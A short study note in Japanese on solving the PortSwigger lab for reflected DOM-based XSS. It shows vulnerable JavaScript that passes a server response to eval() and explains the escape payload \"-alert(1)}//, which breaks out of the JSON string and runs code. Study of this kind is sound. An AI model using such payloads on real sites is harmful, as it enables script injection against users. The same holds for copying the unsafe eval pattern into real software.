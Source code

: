 
Date: 2025-09-22
Tags: 
Links: [[XSS]], [[WSA]]

***

1. eval()脆弱
```javascript
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
	if (this.readyState == 4 && this.status == 200) {
		eval('var searchResultsObj = ' + this.responseText);
		displaySearchResults(searchResultsObj);
	}
};
xhr.open("GET", path + window.location.search);
xhr.send();
```

2. 適当に入力する
```
{
	"searchTerm":"aaaa",
	"results":[]
}
```

3. `\"-alert(1)}//`をフォームに入力して送信
```javascript
{
	"searchTerm":"\\"
	-alert(1)
}
//", "results":[]}
```
というふうに解釈される。
- **ダブルクオーテーションがバックスラッシュでエスケープされるから、さらにバックスラッシュを追加してそれをエスケープ**
- **マイナスはalert()を式として評価させるため。**
>;で一区切りするのも可。
- **//はjavascriptのコメントアウト**

***
# References

https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-reflected
